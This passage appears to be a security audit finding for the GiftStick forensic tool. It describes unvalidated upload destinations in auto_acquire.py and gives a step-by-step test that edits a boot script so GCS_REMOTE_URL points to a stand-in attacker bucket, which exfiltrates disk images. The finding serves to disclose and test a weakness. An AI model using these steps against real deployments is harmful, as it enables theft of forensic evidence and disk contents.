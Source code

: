       # ...
      options = parser.parse_args(args)
      # ...
      self._uploader = self._MakeUploader(options)
      ```
      The `auto_acquire.py` script takes the destination URL as a command-line argument (`options.destination`) without any validation against a pre-defined secure destination. This allows the script to upload data to any URL provided, including an attacker's bucket if the URL is modified in the calling script.
  - Security Test Case:
    - Step 1: **Setup Attacker-Controlled Bucket:** Create a GCS bucket named `attacker-giftstick-bucket` (or any name you control) within your Google Cloud project.
    - Step 2: **Create Legitimate GiftStick Image:**
      - Follow the instructions in `README.md` to create a legitimate GiftStick image using `tools/remaster.sh`. Use your own GCP project and a legitimate GCS bucket (e.g., `giftstick-test-bucket`) for testing. Let's assume the generated image is `giftstick.img`.
    - Step 3: **Mount GiftStick Image:** Mount the `giftstick.img` image to a temporary mount point (e.g., `/mnt`).
      ```bash
      sudo mount -o loop giftstick.img /mnt
      ```
    - Step 4: **Modify `call_auto_forensicate.sh`:**
      - Navigate to the user's home directory in the mounted image: `/mnt/upper/home/xubuntu/`.
      - Edit the `call_auto_forensicate.sh` script using a text editor (e.g., `sudo nano call_auto_forensicate.sh`).
      - Find the line that defines or uses `GCS_REMOTE_URL` or the command that calls `auto_forensicate.py`.
      - Modify the destination URL to your attacker-controlled bucket, `gs://attacker-giftstick-bucket/evil_evidence/`. For example, change the line to:
        ```bash
        GCS_REMOTE_URL="gs://attacker-giftstick-bucket/evil_evidence/"
        ```
      - Save the changes and exit the text editor.
    - Step 5: **Unmount GiftStick Image:** Unmount the GiftStick image.
      ```bash
      sudo umount /mnt
      ```
    - Step 6: **Boot Target System with Malicious GiftStick:**
      - Prepare a test system (virtual machine or physical machine).
      - Boot the test system from the modified `giftstick.img` USB drive.
      - Allow the GiftStick to boot and the acquisition process to run automatically.
    - Step 7: **Verify Data Exfiltration:**
      - After the acquisition process completes (or appears to complete), check the attacker-controlled GCS bucket (`gs://attacker-giftstick-bucket/evil_evidence/`).
      - You should find the forensic evidence files (e.g., `stamp.json`, `system_info.txt`, `Disks/sda.image`, etc.) uploaded to the attacker-controlled bucket, confirming successful data exfiltration.
    - Step 8: **Check Intended Bucket (Optional):** Verify that the originally intended legitimate GCS bucket (`giftstick-test-bucket`) does *not* contain the forensic evidence, further confirming the redirection.